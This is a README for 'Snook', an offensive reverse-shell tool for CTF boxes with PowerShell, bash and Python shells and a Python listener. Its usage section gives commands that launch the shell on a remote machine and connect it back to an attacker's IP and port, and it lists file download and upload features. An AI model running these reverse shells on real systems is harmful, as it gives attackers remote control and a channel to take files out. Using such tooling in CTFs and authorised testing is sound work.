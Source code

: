 # Snook

Enhanced PowerShell/bash/Python reverse shell with python listener. This work was inspired by [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) and [Nishang's PowerShell reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
This is a cool tool for CTF boxes as the reverse shells are coded in a scripting language that will surely be available on the boxes, therefore they won't be dependency problems.
Feel free to suggest or implement new builtin commands!

## Dependencies

The python listener needs:

- alive-progress
- colorama
- cryptography

They all can be installed with pip.

The Powershell reverse shell has only been tested on PowerShell 5.1.
The bash reverse shell has only been tested on bash 5.0.16.
The Python reverse shell has only been tested with Python 2.7.18 and Python 3.8.3.

## Features

- Execute commands
- Download a file from the remote host
- Upload a file to the remote host
- Communication encryption (only available on the bash and PowerShell reverse shells at the moment)
- Fully interactive mode (only available on the bash and Python reverse shells at the moment)

## Usage

On your machine, set up the listener:

`python3 snook_listener.py -H <IP> -p <PORT>`

Then run the reverse shell on the remote machine:

`. .\snook.ps1 ; Invoke-Snook <IP> <PORT>` (on Windows)

or

`./snook.sh <IP> <PORT>` (on Linux)

or

`python snook.py -H <IP> -p <PORT>` (on Linux)

Then on the listener, type whatever command you want. Any command that is not a listener's builtin command will be interpreted as a Powershell/Bash command.

Here is a list of the special builtin commands available on the listener:

### Download

You can download a file from the remote host by typing `download -d <local_destination> <remote_file>`.
Cool tip: there is autocompletion on the local destination parameter.

### Upload

You can upload a file on the remote host by typing `upload -d <remote_destination> <local_file>`.
Cool tip: there is autocompletion on the local file parameter.

### Interactive (only on the Bash and Python reverse shells for the moment)

Juste type `interactive` and you get a fully interactive tty shell, really useful if you need to run commands like sudo.

## TODO

- Better handling of encryption setup errors
- Implement fully interactive mode for the PS reverse shell
- Implement download/upload of directories
- Add a socks command
